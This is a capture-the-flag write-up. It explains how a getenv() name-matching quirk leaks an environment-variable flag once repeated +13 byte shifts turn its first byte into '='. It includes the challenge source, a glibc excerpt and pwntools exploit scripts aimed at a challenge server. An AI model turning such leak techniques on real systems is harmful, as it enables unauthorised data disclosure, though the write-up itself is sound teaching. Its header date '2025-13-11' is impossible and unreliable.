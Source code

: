 ```yaml
---
title: "FortiD CTF 2025 – protect-the-environment: Abusing getenv() with repeated ROT13"
date: 2025-13-11
toc: true
---
```


> *Protect the earth? We can't even protect our environment variables...*

### TL;DR

Repeatedly calling `protect FLAG` adds `+13` to each byte of the FLAG **value**. After 19 applications the first byte of the value becomes `'='`, turning the stored string into `FLAG==...`. Then `print FLAG=` matches that entry and returns the encoded payload. Recover the original flag by adding `+9` to each returned byte (i.e. `original = (encoded + 9) % 256`).
### What the program does

```c
// gcc -o chall chall.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rot13(char *s) {
  while (*s != 0) {
    *s += 13;
    s++;
  }
}

int main(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  char command[64];
  char name[64];

  while (1) {
    printf("> ");
    scanf("%63s %63s", command, name);
    if (!strcmp(command, "protect")) {
      char *val = getenv(name);
      if (val) {
        rot13(val);
        printf("Protected %s\n", name);
      } else {
        printf("No such environment variable\n");
      }
    } else if (!strcmp(command, "print")) {
      if (!strcmp(name, "FLAG")) {
        printf("Access denied\n");
      } else {
        char *val = getenv(name);
        if (val) {
          printf("%s=%s\n", name, val);
        } else {
          printf("No such environment variable\n");
        }
      }
    } else {
      printf("Unknown command\n");
      break ;
    }
  } 
  return 0;
}
```

The source code doesn't appear to be exploitable: it simply protects the environment values using [rot13](https://en.wikipedia.org/wiki/ROT13) prints environment variables (except the flag) using `getenv()`. 
### Exploitation

I was honestly stunned for a long time — the binary looked clean and I couldn't find any vuln in the code — so I decided to f**k with my brain and dive into the `getenv()` source code.
#### getenv() mistreating entries

Reading the glibc `getenv()` [implementation](https://elixir.bootlin.com/glibc/glibc-2.27/source/stdlib/getenv.c) we see that `getenv()` scans the environment array (`environ` / `start_environ`) line by line, looking for an entry of the form `NAME=VALUE`. When it finds a matching name it returns a pointer to the value (the characters immediately after the `=`).

```c
size_t len = strlen (name);
for (char **ep = start_environ; ; ++ep)
{
    char *entry = atomic_load_relaxed (ep);
    if (entry == NULL)
    break;

    /* If there is a match, return that value.  It was valid at
        one point, so we can return it.  */
    if (name[0] == entry[0]
        && strncmp (name, entry, len) == 0 && entry[len] == '=')
    return entry + len + 1;
}
```

So if we can turn the first byte of the **value** into an `'='` byte, the stored environment string becomes `NAME==...` (note the double `=`). If we then call `print NAME=` (notice the extra `=` included in the name we pass to the program) the `getenv()` call will look for an entry named `NAME=` and check that `entry[len] == '='` — that second `=` is the one we created at the start of the value. `getenv()` therefore returns a pointer to the data _after_ the second `=` — i.e. the original value with its first byte removed (so you can now read the encoded payload).

##### How many times do we need to call `protect`?

Each `protect` call adds `13` to every byte of the value (mod 256). If the value's first byte is `x`, after `k` calls it becomes `(x + 13*k) % 256`. We want that first byte to become `=` (ASCII 61).

```
(x + 13*k) % 256 == 61
=> 13*k ≡ (61 - x) (mod 256)
```

As the flag starts with `'F'` (70), we need `13*k ≡ 61 - 70 ≡ -9 ≡ 247 (mod 256)`. Since `13 * 19 = 247`, `k = 19` is the solution — so 19 `protect` calls will make the first byte of the value `=`.

We can confirm this by using the following poc:

```python
from pwn import *

p = remote('0.cloud.chals.io', 33121)

for _ in range(19):
    p.sendlineafter(b"> ", b"protect FLAG")

p.interactive()
```

![](https://github.com/user-attachments/assets/e4bfbe96-0011-4d8f-83b3-3dedd596ac31)

#### printf FLAG=

```python
from pwn import *
p = remote('0.cloud.chals.io', 33121)

for _ in range(19):
  p.sendlineafter(b"> ", b"protect FLAG")

p.sendlineafter(b"> ", b"print FLAG=")
p.recvuntil(b"FLAG=")
log.success(''.join(chr((ord(c)+9)%256) for c in p.recvline().strip().decode()))
```

![](https://github.com/user-attachments/assets/21ca19d3-0cdd-4f89-baa5-a890500d4166)

### Conclusion

Make the flag wear an extra `=` — print it out, add 9, and boom, flag unlocked.
